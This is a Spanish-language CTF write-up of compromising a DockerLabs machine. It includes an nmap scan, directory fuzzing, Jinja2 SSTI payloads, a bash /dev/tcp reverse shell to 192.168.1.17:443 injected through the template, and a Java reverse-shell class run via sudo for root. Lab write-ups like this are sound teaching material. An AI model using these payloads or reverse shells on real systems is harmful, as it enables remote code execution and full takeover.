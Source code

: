 # Fase 1- Tanteo

![image](https://github.com/haw441kings/DockerLabsWriteUps/assets/136659799/8aa15be7-b94e-4c29-bd1c-8077346838e3)
En esta fase inicial, realizamos un escaneo de puertos para identificar los servicios disponibles en la máquina objetivo. Utilizamos la herramienta Nmap con una serie de opciones para obtener información detallada y realizar un análisis exhaustivo de los puertos abiertos.
### Comando Nmap utilizado:

`sudo nmap -p- --open -sS -sC -sV --min-rate 5000 -vvv -n -Pn 192.168.52.139 -oN Escaneo`

### Detalles del Comando:

- `sudo nmap -p- --open -sS -sC -sV --min-rate 5000 -vvv -n -Pn 192.168.52.139 -oN Escaneo`
- `-p-`: Escaneo de todos los puertos.
- `--open`: Muestra solo puertos abiertos.
- `-sS`: Escaneo SYN para determinar el estado de los puertos.
- `-sC`: Activa detección de versiones y vulnerabilidades.
- `-sV`: Escaneo de versiones de servicios.
- `--min-rate 5000`: Velocidad mínima de escaneo.
- `-vvv`: Verbosidad muy alta para información detallada.
- `-n`: Desactiva la resolución de DNS.
- `-Pn`: Ignora la detección de hosts en línea.
- `192.168.52.139`: IP de la máquina objetivo.
- `-oN Escaneo`: Guarda resultados en archivo "Escaneo".

### Resultados:

#### Puertos Abiertos:

1. **5000/tcp (UPNP):** -
### Puerto 80
Al identificar que el puerto 5000 estaba abierto durante el escaneo, se procedió a ingresar la dirección IP en el navegador. Junto con el puerto, esto llevo a una pagina de registro.
![image](https://github.com/haw441kings/DockerLabsWriteUps/assets/136659799/99ea8e18-a399-431d-b9f8-564a8317f448)

# Fase 2- Exploración

#### /console
![image](https://github.com/haw441kings/DockerLabsWriteUps/assets/136659799/271733c1-fffc-4540-8405-63fe8a9d0fbf)
Realizando fuzzing con Feroxbuster encontré el un /console que nos pide un pin para ingresar.

# Fase 3- Explotación

#### 4?
![image](https://github.com/haw441kings/DockerLabsWriteUps/assets/136659799/ae2ef32e-73a6-42c6-aa66-9d1a15bec91f)

Si probamos inyectar un `{{2 + 2}}` en el campo PinguNombre nos devuelve un `Hello 4!` estamos inyectando codigo.

#### ssti
![image](https://github.com/haw441kings/DockerLabsWriteUps/assets/136659799/301c238f-3e89-4af3-ab51-6f4361adab58)

Probamos si es vulnerable a SSTI "Server-Side Template Injection" inyectamos este codigo:
```python
{{ self.__init__.__globals__.__builtins__.__import__('os').popen('id').read() }}
```

#### Reverse shell
![image](https://github.com/haw441kings/DockerLabsWriteUps/assets/136659799/90f3df21-7447-4f2b-a17b-19d62728f301)
Enviamos una reverse shell de `PayloadsAllTheThings` pero la modifique para que sea en vez de Python, bash ya que Python me daba problemas. El comando es:
```python
{% for x in ().__class__.__base__.__subclasses__() %} {% if "warning" in x.__name__ %} {{x()._module.__builtins__['__import__']('os').popen('bash -c "bash -i >& /dev/tcp/192.168.1.17/443 0>&1"').read().zfill(417)}} {% endif %} {% endfor %}
```

# Fase 4- Privilegios

#### sudo -l
![image](https://github.com/haw441kings/DockerLabsWriteUps/assets/136659799/498d1409-0d6f-4a95-9351-29514c6d2a59)
Vemos que el binario que podemos ejecutar como root es java.

#### java
```java
import java.io.*;
import java.net.*;

public class ReverseShell {
       public static void main(String[] args) throws Exception {
           String ip = "192.168.1.17";
           int port = 443;
           rocess p = new ProcessBuilder("/bin/bash", "-c", "exec 5<>/dev/tcp/" + ip + "/" + port + ";cat <&5 | while read line; do $line 2>&5 >&5; done").start();
           p.waitFor();
    } 
} 

```
Como no tenemos ningún archivo para ejecutar ni en gtfobins no nos aparece nada, busque una reverse shell con java y encontré esta.

![image](https://github.com/haw441kings/DockerLabsWriteUps/assets/136659799/ee963c42-8f15-4ed7-a546-6d2310c8768b)
La ejecute llamando al binario, y al nombre del archivo y me llego la reverse shell, somos root!


